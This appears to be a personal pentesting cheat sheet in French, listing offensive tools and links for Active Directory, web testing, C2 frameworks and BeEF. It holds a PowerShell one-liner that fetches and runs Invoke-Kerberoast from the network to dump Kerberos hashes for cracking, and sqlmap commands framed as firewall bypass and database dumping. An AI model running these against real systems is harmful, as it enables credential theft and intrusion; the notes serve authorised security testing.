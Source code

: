 # mycheatsheet

## AD

* linWinPwn super outil pour automatiser les attaques sur l'AD : https://github.com/lefayjey/linWinPwn
* 
* https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/steal-or-forge-kerberos-tickets/kerberoasting
### Windows 

	* IEX(IWR https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Kerberoast.ps1);Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
	* Il marche très bien et sort un fichier hashes.kerberoast
	* https://exploit-notes.hdks.org/exploit/windows/active-directory/kerberos-pentesting/
	* https://github.com/blackc03r/OSCP-Cheatsheets/blob/master/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting.md
 
### bloodhound delete data
```
MATCH (n) OPTIONAL MATCH (n)-[r]-() DELETE n,r
```
## Pentest Web
* whatweb
* gobuster
* Bypass firewall
	* sqlmap -u "http://..room.php?code=3" --dbs --random-agent --delay 1
		* possible de passer à delay 10 pour mieux bypass mais plus long
		* --dump -D information-schema --delay 5

## Kubernetes
* Hubble: Pour inspecter service et réseau sur K8S https://github.com/cilium/hubble

## C2C
* Vilain c'est un peu comme meterpreter mais un peu mieux fait : https://github.com/t3l3machus/Villain

# Network
* Legion: https://github.com/GoVanguard/legion
## Pentest plateforme
* Rekono : https://github.com/pablosnt/rekono?search=1
* Sniper: https://github.com/1N3/Sn1per

## BEEF XSS

https://www.golinuxcloud.com/beef-hacking-framework-tutorial/

https://programmingdigest.com/python-simple-http-server-a-quick-and-easy-way-to-serve-web-content/

